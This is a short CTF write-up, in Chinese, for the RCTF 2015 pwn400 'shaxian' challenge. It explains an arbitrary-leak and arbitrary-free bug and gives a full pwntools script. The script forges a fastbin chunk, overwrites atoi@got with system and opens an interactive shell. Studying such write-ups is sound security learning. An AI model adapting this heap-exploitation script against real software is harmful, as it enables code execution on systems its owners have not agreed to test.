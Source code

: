```yaml
---
layout: post
title: "rctf-pwn400"
date: 2015-11-17 18:13:29 +0800
comments: true
categories: 
---
```

###漏洞
可以泄漏任意地址，可以free任意地址

###利用
free第二个chunk进入fastbin，free伪造的chunk，再malloc即可写入ptr，改写ptr为atoi@got，利用*ptr=number可以改写其为system的地址
###payload

    from pwn import *
    libc = ELF('/usr/lib/libc.so.6')
    log.success(hex(libc.symbols['system']))
    
    p = process('./shaxian')
    p.sendline('aaaa' + p32(0x31))
    p.sendline('A'*244 + p32(0x30))
    
    #malloc
    p.sendline('1') 
    p.sendline('a'*32 + p32(0x804b01c) ) 	#for leak
    p.sendline('123') 
    
    #review
    p.sendline('4')
    
    
    #leak
    p.recvuntil('123')
    recvdata = p.recvuntil('*')
    system = u32(recvdata[1:5]) - libc.symbols['alarm'] + libc.symbols['system']
    log.info('system:' + hex(system))
    
    #malloc
    p.recvuntil('choose:\n')
    p.sendline('1')
    p.sendline('a'*32 + p32(0x804b1b8))	#for free
    p.sendline('123') 
    
    #free
    p.recvuntil('choose:\n')
    p.sendline('2')
    
    #malloc
    p.recvuntil('choose:\n')
    p.sendline('1')
    p.sendline('AAAA' + p32(0x804b038) )	#change ptr
    p.sendline(str(system - 2**32))		#write system
    
    p.interactive()

###note
int 输入整数最大为0x7fffffff  
可以将输入变为(x-2**32),达到写入任意数字的目的  
伪造堆chunk再利用
